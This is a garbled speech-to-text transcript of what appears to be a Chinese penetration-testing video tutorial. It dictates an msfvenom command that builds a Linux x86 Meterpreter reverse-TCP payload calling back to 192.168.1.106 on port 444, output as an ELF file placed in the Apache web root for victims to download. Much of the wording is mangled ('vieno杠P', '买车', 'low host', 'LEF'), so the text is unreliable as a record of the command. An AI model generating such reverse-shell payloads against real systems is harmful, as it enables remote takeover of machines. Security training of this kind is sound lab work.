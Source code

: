 打开一个终端。MSF然后tab，然后vieno杠P。接下来是linux。S86。买车。Pre pretty。呃，接下来是。咱们reverse。港TCP。🤧嗯。接下来哎是low host。等于192。

168。1。106啊，接下来low port。等于444。接下来呃是杠F。LEF。LFE，然后重新定向到。把它定向到哎阿帕奇的根目录像。呃，shall文件。



![](img/cddd7563fc4b491b3944e88ff6e5e31d_3.png)

咱们看一下这条命令是否写对了。revo TCPlow host lowportEFELF哎正确。

![](img/cddd7563fc4b491b3944e88ff6e5e31d_5.png)

ELF。哎，这个是正确的啊回撤。这时候哎咱们这个工具会在咱们这个阿帕奇的根目录下哎生成一个hell哎这样一个文件。LEF。


